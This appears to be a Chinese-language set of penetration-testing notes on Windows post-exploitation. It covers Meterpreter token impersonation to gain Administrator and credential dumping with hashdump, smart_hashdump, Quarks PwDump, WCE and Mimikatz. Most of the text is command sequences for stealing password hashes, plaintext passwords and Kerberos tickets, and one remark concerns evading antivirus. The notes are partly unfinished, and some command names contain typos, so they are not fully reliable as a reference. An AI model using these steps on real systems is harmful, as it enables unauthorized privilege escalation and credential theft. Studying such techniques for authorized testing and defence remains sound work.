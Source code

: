 **2.令牌窃取**
令牌(Token)就是系统的`临时密钥`, 相当与账户密码，特点是随机性和不可预测  
在假冒令牌攻击中需要使用`Kerberos`协议(一种网络认证协议，其设计目的是通过密钥系统为客户机/服务器应用程序提供强大的认证服务)
Kerberos工作机制：
xxx待补充

假冒令牌实战利用
```bash
# 假设已经拿到了Meterpreter shell
getuid
getsystem # 提权失败

use incognito
list token -u # 列出可用的token(会看到结果，根据Meterpreter shell的权限而定)
# 假设从输出信息中看到了目标机器的..., 继续在incognito中执行
impersonate_token WIN7-TEST\\Administrator # 调用incognito中的这个impersonate_token 命令，来假冒Admin进行攻击(注意是两个反斜杠)
shell
whoami  # 查看权限

```

Hash攻击
```bash
###### 1.是使用Hashdump抓取密码
hashdump   # 导出主机的sam数据库的hash

# 另一个更强大的模块
run winsows/gather/smart_hashdump  # 若是win7,且开启了uac，就要使用绕过uac的模块再继续



##### 2.使用Quarks PwDump抓取密码
win32下的一款工具，导出信息十分全面，支持系统版本十分广泛
具体参数再查
QuarksPwDump.exe -dh1 -o 1.txt
# 还可配合在 Ntdsutil 工具到处DC的密码

ps: win的密码会加密存放在/windows/system32/config/sam



##### 3.使用Windows Credentials Editor抓取密码
WCE(Windows Credentials Editor)  功能强大，不过必须是管理员权限，还要主要免杀
# 先上传wce到目标
upload wce.exe
# 在目标的shell下执行
wce -w  # 便会成功提取明文管理员密码(默认是-l命令读取，-f强制安全方式读取，-g用来计算密码，-c制定会话来执行cmd，-v显示详细信息，-w最关键 --> 查看已登录的明文密码)



##### 4.使用Mimikatz抓取密码
msf内置了Mimikatz成为一个peterpreter脚本集成
load Mimikatz
help Mimikatz
# mimikatz_command # 可以让我们使用Mimikatz全部功能, 如(:: 请求某个模块可用的选项)
mimikatz_command -f hash::
mcv    # 抓取系统hash值
kerberos    # 抓取系统票据
wdigest   # 获取系统账户信息
mimikatz_command -f samdump::hash  # 抓取hash

## mimikatz 除了抓取hash，还有其他功能：比如 Handle模块，list\kill进程，模拟用户令牌等
mimikatz_command -f handle::
mimikatz_command -f service::  # servvice模块可以对win的服务进行...
```